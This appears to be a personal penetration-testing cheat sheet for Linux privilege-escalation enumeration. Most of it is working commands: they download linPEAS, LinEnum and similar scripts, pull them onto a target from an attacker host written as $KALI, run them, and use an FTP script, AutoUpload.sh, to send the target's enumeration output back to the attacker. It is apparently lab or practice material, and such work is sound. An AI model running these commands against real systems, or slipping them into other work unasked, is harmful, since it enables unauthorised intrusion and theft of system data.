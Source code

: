 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

linPEAS.sh
LineEnum.sh
linux-exploit-suggester.sh 
linuxprivchecker.py 


#### Download to Kali

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh && wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py && wget https://raw.githubusercontent.com/etc5had0w/suider/main/suider.sh && wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py

```

```bash - kali
echo $KALI
```

```bash - kali
mousepad AutoUpload.sh
```

#### AutoUpload.sh - ==REMEMBER TO CHANGE $KALI TO IP!==
```bash - kali
#!/bin/sh
HOST='$KALI'
USER='anonymous'
PASSWD='anonymous'


ftp -n $HOST <<END_SCRIPT
quote USER $USER
quote PASS $PASSWD
put LinEnum.txt*
put linpeas.txt
put linux-exploit-suggester.txt
put linuxprivchecker.txt
put suider.sh
put suid3num.txt
quit
END_SCRIPT
exit 0
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

#### Transfer to target - bash - ==CHANGE $KALI TO IP!==
```bash - target
mkdir /tmp/Tools && cd /tmp/Tools && wget http://$KALI:80/linpeas.sh && wget http://$KALI:80/LinEnum.sh && wget http://$KALI:80/linux-exploit-suggester.sh && wget http://$KALI:80/linuxprivchecker.py && wget http://$KALI:80/AutoUpload.sh && wget http://$KALI:80/suider.sh && wget http://$KALI:80/suid3num.py && chmod +x linpeas.sh && chmod +x LinEnum.sh && chmod +x linux-exploit-suggester.sh && chmod +x AutoUpload.sh && chmod +x suider.sh && chmod +x suid3num.py
```

#### Execute tools
```bash - target
./linpeas.sh -a > linpeas.txt & ./LinEnum.sh -t -r LinEnum.txt & ./linux-exploit-suggester.sh > linux-exploit-suggester.txt & python linuxprivchecker.py -w -o linuxprivchecker.txt & ./suider.sh > suider.txt & python suid3num.py > suid3num.txt
```

#### Start FTP server and upload results
```bash - kali
python -m pyftpdlib -p 21 --write
```

```bash - target
./AutoUpload.sh
```

[[3._Automated Tools]]

==Remember you can use [[gcc]] to locally compile if needed!==